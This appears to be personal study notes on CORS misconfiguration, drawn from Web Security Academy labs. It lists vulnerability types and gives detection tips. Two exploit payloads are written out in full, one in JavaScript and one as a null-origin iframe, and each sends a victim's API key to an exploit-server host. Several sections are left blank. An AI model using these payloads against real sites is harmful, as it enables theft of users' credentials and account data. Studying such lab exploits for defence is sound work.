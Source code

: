 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
-
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
  function getadmin() {
    var res = JSON.parse(this.response)
    fetch("https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?" + res.apikey);
}

const request = new XMLHttpRequest();
request.addEventListener("load", getadmin);
request.open("GET", "https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails", true);
request.withCredentials = true;
request.send();
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
-
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
